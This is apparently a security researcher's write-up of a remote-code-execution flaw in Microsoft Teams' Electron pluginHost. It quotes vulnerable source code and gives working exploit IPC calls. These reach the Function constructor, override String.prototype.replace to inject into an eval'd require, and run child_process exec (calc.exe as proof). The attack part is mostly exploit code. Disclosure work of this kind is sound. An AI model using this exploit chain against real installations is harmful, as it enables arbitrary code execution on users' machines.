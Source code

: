 ```js
    throw new Error(
      `Cannot call function '${o}' on missing remote object ${n}`
    );
  return A(e, t, () => r[o](...i));
}),
```

Attacker can get the constructor of any objects, and the constructor of the constructor (Function) to compile arbitrary JavaScript code,
and call the compiled function.

```js
[_,pluginHost]=ipc.sendSync('calling:teams:ipc:initPluginHost', []);
msg=ipc.sendToRendererSync(pluginHost, 'ELECTRON_REMOTE_SERVER_MEMBER_GET', [{hey: 1}, 1, 'constructor', []], '')[0].id
msg=ipc.sendToRendererSync(pluginHost, 'ELECTRON_REMOTE_SERVER_MEMBER_CALL', [{hey: 1}, msg, 'constructor', [{type: 'value', value: 'alert()'}]], '')[0].id
```

`require()` is not exposed to the script itself, but the attacker-controlled script can overwrite prototype of String, which is useful in this code:

```js
function loadSlimCore(slimcoreLibPath) {
let slimcore;
if (utility.isWebpackRuntime()) {
  const slimcoreLibPathWebpack = slimcoreLibPath.replace(/\\/g, "\\\\");
  slimcore = eval(`require('${slimcoreLibPathWebpack}')`);
...
}
...
function requireEx(e, t) {
...
const { slimCoreLibPath: n, error: o } =
  electron_1.ipcRenderer.sendSync(
    constants.events.calling.getSlimCoreLibInfo
  );
if (o) throw new Error(o);
if (t === n) return loadSlimCore(n);
// n === 'slimcore'
throw new Error("Invalid module: " + t);
}

// y === requireEx
P(c.remoteServerRequire, (e, t, n) => A(e, t, () => y(e, n))),
```

If the attacker calls remoteServerRequire with `'slimcore'` as an argument, the pluginHost evaluates string returned by `String.prototype.replace`.
Therefore, the following code can invoke require with arbitrary arguments, and call methods in the module.

```js
msg=ipc.sendToRendererSync(pluginHost, 'ELECTRON_REMOTE_SERVER_MEMBER_CALL', [{hey: 1}, msg, 'constructor', [{type: 'value', value: 'var backup=String.prototype.replace; String.prototype.replace = ()=>"slimcore\');require(`child_process`).exec(`calc.exe`);(\'";'}]], '')[0].id
ipc.sendToRendererSync(pluginHost, 'ELECTRON_REMOTE_SERVER_FUNCTION_CALL', [{hey: 1}, msg, []], '')
ipc.sendToRendererSync(pluginHost, 'ELECTRON_REMOTE_SERVER_REQUIRE', [{hey: 1}, 'slimcore'], '')
```
